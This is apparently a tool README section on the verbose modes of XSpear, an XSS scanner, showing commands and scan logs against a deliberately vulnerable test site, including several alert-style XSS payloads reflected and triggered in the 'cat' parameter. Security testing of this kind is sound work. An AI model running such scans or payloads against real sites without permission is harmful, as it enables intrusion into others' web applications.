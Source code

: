### Verbose Mode
**[0] quite mode(show only result)**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 0
you see report
```
**[1] show progress bar (default)**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
[*] analysis request..
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]

[#######################################] [249/249] [100.00%] [01:05] [00:00] [  3.83/s]
...
you see report
```
**[2] show scanning logs**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 2
[*] analysis request..
[I] [22:42:41] [200/OK] [param: cat][Found SQL Error Pattern]
[-] [22:42:41] [200/OK] 'STATIC' not reflected
[-] [22:42:41] [200/OK] 'cat' not reflected <script>alert(45)</script>
[I] [22:42:41] [200/OK] reflected rEfe6[param: cat][reflected parameter]
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]
[I] [22:42:43] [200/OK] reflected onhwul=64[param: cat][reflected EHon{any} pattern]
[-] [22:42:54] [200/OK] 'cat' not reflected <img/src onerror=alert(45)>
[-] [22:42:54] [200/OK] 'cat' not reflected <svg/onload=alert(45)>
[H] [22:42:54] [200/OK] reflected <script>alert(45)</script>[param: cat][reflected XSS Code]
[V] [22:42:59] [200/OK] found alert/prompt/confirm (45) in selenium!! '"><svg/onload=alert(45)>[param: cat][triggered <svg/onload=alert(45)>]
...
you see report
```
**[3] show scanning detail logs**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 3
[*] analysis request..
[-] [22:56:21] [200/OK] http://testphp.vulnweb.com/listproducts.php?cat=123 in url
[ Request ]
{"accept-encoding"=>["gzip;q=1.0,deflate;q=0.6,identity;q=0.3"], "accept"=>["*/*"], "user-agent"=>["Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0"], "connection"=>["keep-alive"], "host"=>["testphp.vulnweb.com"]}
[ Response ]
{"server"=>["nginx/1.4.1"], "date"=>["Sun, 29 Dec 2019 13:53:23 GMT"], "content-type"=>["text/html"], "transfer-encoding"=>["chunked"], "connection"=>["keep-alive"], "x-powered-by"=>["PHP/5.3.10-1~lucid+2uwsgi2"]}
[-] [22:56:21] [200/OK] 'STATIC' not reflected
[-] [22:56:21] [200/OK] cat=123rEfe6 in url
...
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]
...
[ Request ]
```